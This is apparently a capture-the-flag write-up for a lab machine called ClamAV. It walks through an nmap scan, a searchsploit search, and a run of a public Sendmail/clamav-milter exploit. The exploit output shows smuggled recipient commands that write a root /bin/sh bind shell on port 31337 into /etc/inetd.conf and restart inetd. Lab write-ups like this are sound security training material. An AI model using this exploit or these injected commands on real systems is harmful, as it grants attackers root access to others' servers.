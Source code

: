 # ClamAV

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.42
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 21:01 +08
Warning: 192.168.175.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.175.42
Host is up (0.17s latency).
Not shown: 65448 closed tcp ports (conn-refused), 80 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

### ClamAV Root

This machine was obviously hinting towards abusing ClamAV, the Antivirus. The SMTP port was open, and we can search for exploits using `searchsploit`:

```
$ searchsploit clamav    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Clam Anti-Virus ClamAV 0.88.x - UPX Compressed PE File Hea | linux/dos/28348.txt
ClamAV / UnRAR - .RAR Handling Remote Null Pointer Derefer | linux/remote/30291.txt
ClamAV 0.91.2 - libclamav MEW PE Buffer Overflow           | linux/remote/4862.py
ClamAV < 0.102.0 - 'bytecode_vm' Code Execution            | linux/local/47687.py
ClamAV < 0.94.2 - JPEG Parsing Recursive Stack Overflow (P | multiple/dos/7330.c
ClamAV Daemon 0.65 - UUEncoded Message Denial of Service   | linux/dos/23667.txt
ClamAV Milter - Blackhole-Mode Remote Code Execution (Meta | linux/remote/16924.rb
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Exec | multiple/remote/9913.rb
Sendmail with clamav-milter < 0.91.2 - Remote Command Exec | multiple/remote/4761.pl
----------------------------------------------------------- ---------------------------------
```

The last exploit looked interesting because it had 'Sendmail' in it. We can try it out:

```
$ perl 4761.pl 192.168.175.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.175.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sat, 1 Jul 2023 13:02:43 -0400; (No UCE/UBE) logging access from: [192.168.45.164](FAIL)-[192.168.45.164]
250-localhost.localdomain Hello [192.168.45.164], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 361H2hEV004002 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

This exploit would spawn a `root` shell on port 31337 which we can connect to:

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Rooted!
